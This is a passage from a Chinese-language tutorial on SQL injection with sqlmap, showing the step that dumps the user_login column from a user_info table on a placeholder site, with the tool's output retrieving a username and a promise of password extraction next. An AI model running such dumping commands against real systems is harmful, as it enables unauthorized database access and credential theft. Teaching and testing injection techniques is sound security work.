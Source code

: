 哈哈！其中的`user_login`和`user_password`字段就是我们要找的！

## 0x05 从指定的数据库的表中列出用户名

* * *

SQLMAP 的 SQL 注入非常简单！再次运行下面的命令吧：

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info -C user_login --dump 
```

现在我们有了数据库的用户名了：

```
[10:58:39] [INFO] retrieved: userX
[10:58:40] [INFO] analyzing table dump for possible password hashes 
```

![2014052915114612604_png.jpg](img/img4_u20_jpg.jpg)

现在我们只需要这个用户的密码了，下面就来介绍如何得到密码！
